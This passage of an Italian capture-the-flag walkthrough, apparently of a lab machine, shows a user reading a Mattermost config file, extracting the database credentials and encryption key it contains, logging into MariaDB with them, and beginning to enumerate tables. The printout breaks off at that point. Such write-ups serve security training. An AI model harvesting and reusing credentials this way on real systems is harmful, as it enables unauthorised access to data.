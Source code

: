 Cercando un po in giro troviamo in file di configurazione di MatterMoss 

```bash
maildeliverer@Delivery:/opt/mattermost/config$ ls
cloud_defaults.json  config.json  README.md
maildeliverer@Delivery:/opt/mattermost/config$

```

Diamogli un occhiata

```bash
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json
m
...<snip>...
   "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
...<snip>...
```

Sembrano esserci delle credenziali per connetterci al database con mysql

```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -pCrack_The_MM_Admin_PW mattermost
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 144
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]>
```

Esploriamo un po il database 

```bash
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
```